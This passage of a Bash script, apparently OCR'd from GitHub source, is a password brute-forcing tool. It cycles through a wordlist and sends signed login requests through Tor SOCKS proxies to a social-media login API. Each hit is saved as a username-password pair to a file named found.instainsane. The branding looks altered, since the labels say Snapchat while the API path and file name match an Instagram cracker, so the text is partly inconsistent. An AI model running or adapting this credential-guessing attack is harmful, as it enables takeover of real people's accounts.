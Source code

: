 printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9052 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst ; kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid2=$! ; # wait $!;
let startline+=20
let endline+=20
done
}
bf3() {
while [ $counter3 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter3++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9053 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]];  then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid3=$! ; # wait $!;
let startline+=20
let endline+=20
done
}
bf4() {
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
while [ $counter4 -lt $turn ]; do
IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)